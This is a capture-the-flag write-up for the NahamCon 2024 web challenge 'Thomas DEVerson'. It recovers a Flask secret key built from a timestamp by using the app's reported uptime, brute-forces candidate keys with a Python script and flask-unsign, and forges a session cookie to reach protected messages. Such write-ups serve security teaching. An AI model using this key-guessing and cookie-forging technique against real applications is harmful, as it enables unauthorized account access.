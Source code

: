 ```yaml
---
layout: load_md
title: The White Circle | Nahamcon 2024 | Thomas DEVerson Writeup
desc: Check out our writeup for Thomas DEVerson for Nahamcon 2024 capture the flag competition.
image: images/twc_og_banner.jpg
ctf: Nahamcon 2024
parent: nahamcon_2024
category: web
challenge: Thomas DEVerson
tags: "web, legend, nigamelastic, twh, api, flask, flask-unsign"
date: 2024-05-28T00:00:00+00:00
last_modified_at: 2024-05-28T00:00:00+00:00
---
```




> Solved by : Legend, nigamelastic, thewhiteh4t


- The site has 3 endpoints `messages` `login` and `status`
- if you put any random query as post on the login u are redirect to ‘messages’ without being logged in. 
- we find another directory called `backup` which has the following content.

```
command output: {head -n 10 app.py}

from flask import (Flask, flash, redirect, render_template, request, send_from_directory, session, url_for)
from datetime import datetime

app = Flask(__name__)

c = datetime.now()
f = c.strftime("%Y%m%d%H%M")
app.secret_key = f'THE_REYNOLDS_PAMPHLET-{f}'

allowed_users = ['Jefferson', 'Madison', 'Burr'] # No Federalists Allowed!!!!

command output: {head -n 10 requirements.txt}

Flask==3.0.3
```

- All accounts show an error message on login attempts : `a``ccount is protected!`


- however the responses had some interesting cookies :

```
HTTP/1.1 302 FOUND
Server: Werkzeug/3.0.3 Python/3.8.10
Date: Thu, 23 May 2024 23:17:43 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 189
Location: /
Vary: Cookie
Set-Cookie: session=.eJwNxcENgCAMBdBV6j8zgUcdwxDTYEUTKYaWk3F3fZf3YN0vtkMM4_KA_A9FzDgLAmZWrU5XzacSG029tUCcUu3qdBrdrbokl21AfGOAchGMyF3M8X7pNCAR.Zk_Olw.CgFkkfYZmHi5O8_eaqSwj7VohO8; HttpOnly; Path=/
Connection: close

<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/">/</a>. If not, click the link.
```

- these look like JWT but these are slightly different
- flask cookies can be decoded using `flask-unsign` tool
- for example cookies on the homepage can be decoded like this : 

```
> flask-unsign --cookie 'eyJuYW1lIjoiZ3Vlc3QifQ.ZlDcbw.D5h97i6PYmF5THUXwBgTVzPXMbU' --decode
{'name': 'guest'}
```

- although the cookie can be read but it is signed, if we want to manipulate the cookie we need a `secret key` which was used in the app to sign the new new cookie
- going back to `/backup` we can see how the app generated the secret key :

```python
c = datetime.now()
f = c.strftime("%Y%m%d%H%M")
app.secret_key = f'THE_REYNOLDS_PAMPHLET-{f}'
```

- and lets also take a look at the `/status` endpoint :

```
System healthy! Computing uptime... 82817 days 9 hours 48 minutes
```

- here the hint is that app was started once and it is running without fail
- we can roughly calculate the launch time using the following logic : 

```
launch time = current time - uptime
```

- this can easily be done using a python script but we wont get the exact time the key was generated because app launch and key generation will have different timings depending on multiple factors so we need to adjust the launch time a bit to get the exact key generation time

```
#!/usr/bin/env python3

import requests
from datetime import datetime, timedelta

base_url = 'http://challenge.nahamcon.com'
port = 30311
path = 'status'

url = f'{base_url}:{port}/{path}'
rqst = requests.get(url)

resp = rqst.text.split('\n')[1].split(' ')

days = int(resp[0])
hours = int(resp[2])
mins = int(resp[4])

uptime = timedelta(days=days, hours=hours, minutes=mins)

current_time = datetime.now()

launch_time = current_time - uptime

with open('list.txt', 'w') as outfile:
        for i in range(0, 1000):
                forward_time = launch_time - timedelta(minutes=i)
                format_time = forward_time.strftime("%Y%m%d%H%M")
                key = f'THE_REYNOLDS_PAMPHLET-{format_time}'
                outfile.write(key + '\n')
```

![](https://i.imgur.com/yPpAVlm.png)

- so now we have a list of possible keys which we can test using `flask-unsign` :


![](https://i.imgur.com/KzAzrbN.png)

- SECRET_KEY : `THE_REYNOLDS_PAMPHLET-179708250845`
- now we can easily modify the cookie and use any of the allowed usernames to read `/messages`

```
> flask-unsign --cookie "{'name': 'Burr'}" --sign --secret 'THE_REYNOLDS_PAMPHLET-179708250845'
eyJuYW1lIjoiQnVyciJ9.ZlDfmg.x3PYD73ZIkbVJhdpJ4c8UdYfGyg
```

![](https://i.imgur.com/IBfF7Bi.png)

